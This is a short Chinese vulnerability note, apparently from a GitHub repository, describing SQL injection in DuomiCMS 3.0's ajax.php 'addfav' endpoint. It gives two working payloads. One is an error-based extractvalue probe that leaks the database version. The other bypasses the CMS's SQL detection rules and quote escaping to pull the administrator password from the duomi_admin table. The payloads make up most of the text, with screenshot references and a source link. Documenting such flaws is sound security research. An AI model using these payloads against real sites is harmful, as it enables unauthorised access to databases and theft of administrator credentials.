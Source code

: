 #### 漏洞详情： ####
 payload ：

    ajax.php?action=addfav&id=1&uid=1 and extractvalue(1,concat_ws(0x3A,0x3A,version()))

![](DuomiCMS3.0SQL注入.assets/20180930142726-e62f0396-c479-1.png)

但是要想爆出有用的数据，这里还要绕过 duomiphp/sql.class.php 文件的SQL检测规则以及全局变量的 _RunMagicQuotes 函数的转义。这里直接给出我测试成功的 payload ：
    
    http://localhost//duomiphp/ajax.php?action=addfav&id=1&uid=10101 and `'`.``.vid and extractvalue(1,concat_ws(0x3A,0x3A,(select`password` from`duomi_admin` limit 1))) and `'`.``.vid
![](DuomiCMS3.0SQL注入.assets/20180930142732-e978a926-c479-1.png)

### 参考链接 ###
https://xz.aliyun.com/t/2828#toc-2
